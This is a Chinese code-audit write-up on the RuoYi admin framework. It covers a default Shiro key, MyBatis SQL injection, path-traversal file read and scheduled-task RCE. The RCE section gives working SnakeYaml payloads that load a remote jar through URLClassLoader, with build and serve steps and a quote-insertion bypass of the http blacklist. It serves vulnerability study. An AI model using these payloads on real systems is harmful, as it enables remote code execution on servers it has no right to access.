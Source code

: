# 0x00 项目安装部署





# 0x01 Shiro默认密钥

在配置文件中，能够看到shiro的密钥是在配置文件中的

![image-20240302175543571](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302175543571.png)

`由于Apache Shiro cookie中通过AES-128-CBC模式加密的rememberMe字段存在问题，用户可通过Padding Oracle加密生成的攻击代码来构造恶意的rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行rememberMe cookie通过AES-128-CBC模式加密，易受到Padding Oracle攻击。可以通过结合有效的rememberMe cookie作为Padding Oracle攻击的前缀，然后精⼼制作rememberMe来进⾏反序列化攻击。Tip：在1.2.4版本后，shiro已经更换AES-CBC为AES-GCM，无法再通过Padding Oracle 遍历 key`

![image-20240302180355968](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302180355968.png)

但是，不知道为什么，我这里并没有找到利用链

![image-20240302181523038](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302181523038.png)

下篇在分析下原因是啥。

# 0x02 SQL注入

查找过程和之前类似，这里就不说了，主要是分享下mybatis的动态sql小技巧，再搜索的适合找到如下内容：![image-20240302170452459](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302170452459.png)

解释一下 ${params.dataScope}

`${params.dataScope}`这段代码是MyBatis的动态SQL之一，主要用于在SQL查询中嵌入外部定义的字符串或参数。这里的`${...}`语法表示取出`params`对象中名为`dataScope`的属性值，并将其直接嵌入到SQL语句中。

`	例如，在一个基于角色权限管理的系统中，不同的用户可能有权限查看不同的数据记录。管理员可能可以查看所有部门的记录，而普通用户只能查看自己部门的记录。在这种情况下，`dataScope`的值可以是一个根据用户角色动态生成的SQL片段，如`"AND dept_id IN (SELECT dept_id FROM user_dept_access WHERE user_id = #{userId})"`，用以限定查询结果只包含特定部门的用户信息。`

可以看到，在查询的时候，user的属性params是map，在xml中，将dataScope拼接到sql语句后

![image-20240302171449708](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302171449708.png)

![image-20240302181749517](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302181749517.png)



下面是最新版本的修复方案：

​	在service层，对这个方法进行了增强，也就是在执行之前会执行执行操作。

![image-20240302172523745](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302172523745.png)

![image-20240302172618972](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302172618972.png)

![image-20240302172625338](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302172625338.png)

从上面可以看到，即使在前端传入dataScope，还是会被清除的，导致这个参数不可控。

其他处sql注入类似。

# 0x03 若依后台任意文件读取

### 漏洞简介

​	登录后台后可以读取服务器上的任意文件。影响版本：RuoYi<4.5.1

​	直接搜索关键字，download找到具体的controller

```java
 @GetMapping("/common/download/resource")
    public void resourceDownload(String resource, HttpServletRequest request, HttpServletResponse response)
            throws Exception
    {
        // 本地资源路径 ,就是上传路径
        String localPath = Global.getProfile();
        // 数据库资源地址 , 
        String downloadPath = localPath + StringUtils.substringAfter(resource, Constants.RESOURCE_PREFIX);
        // 下载名称
        //该函数使用StringUtils类的substringAfterLast方法，从downloadPath中截取最后一个"/"之后的字符串，并将其赋值给downloadName变量
        String downloadName = StringUtils.substringAfterLast(downloadPath, "/");

        response.setContentType(MediaType.APPLICATION_OCTET_STREAM_VALUE);
        FileUtils.setAttachmentResponseHeader(response, downloadName);

        FileUtils.writeBytes(downloadPath, response.getOutputStream());
    }
```

所以下载的规则就是：先获取本地资源路径： D:/ruoyi/upload ,  将传过来的resource字符串的出现的最后一个/profile进行截取只要后面的部分，如/profile/123 /456，最后是/123/456 。那此时 downloadName就是 /456。最终下载的文件是 D:/ruoyi/upload/123 /456

![image-20240302190451608](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302190451608.png)

![image-20240302191248708](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302191248708.png)

其中原因还是因为进行目录穿越，而在使用new File(fileName)的时候要注意fileName的可控性。

![image-20240302190727745](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302190727745.png)







# 0x04 定时任务RCE

由于若依后台计划任务处，对于传入的“调用目标字符串”没有任何校验，导致攻击者可以调用任意类、方法及参数触发反射执行命令。影响版本：RuoYi<4.6.2

有关若依定时任务讲解：https://blog.csdn.net/wsb_2526/article/details/129475335

关于SnakeYaml反序列化分析： https://www.cnblogs.com/nice0e3/p/14514882.html

![image-20240302192630472](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302192630472.png)

![image-20240302192639833](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302192639833.png)

利用步骤：

1、下载payload：

```
https://github.com/artsploit/yaml-payload
```

2、下载完成之后我们修改一下 AwesomeScriptEngineFactory.java 这个文件

![image-20240302194308705](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302194308705.png)

3、编写yaml-payload.yml文件(没有的话,自己创建即可)

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]

```

![image-20240302194554681](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302194554681.png)

4、然后输入命令打包

```cmd
//编译java文件
javac src/artsploit/AwesomeScriptEngineFactory.java


//打包成jar包
jar -cvf example.jar -C src/ .


```

5、开启监听

python3 -m http.server 5555

6、添加定时任务

![image-20240302195108165](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302195108165.png)

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:5555/example.jar"]]]]')

```

![image-20240302195048439](%E5%AE%A1%E8%AE%A1%E7%BB%93%E6%9E%9C.assets/image-20240302195048439.png)

### 版本4.6.2<=Ruoyi<4.7.2

这个版本采用了黑名单限制调用字符串

- 定时任务屏蔽ldap远程调用
- 定时任务屏蔽http(s)远程调用
- 定时任务屏蔽rmi远程调用

**Bypass**
咱们只需要在屏蔽的协议加上单引号,接着采用之前的方式
例如:

```
org.yaml.snakeyaml.Yaml.load(’!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“**h’t’t’p’:**//127.0.0.1:88/yaml-payload.jar”]]]]’)
```


























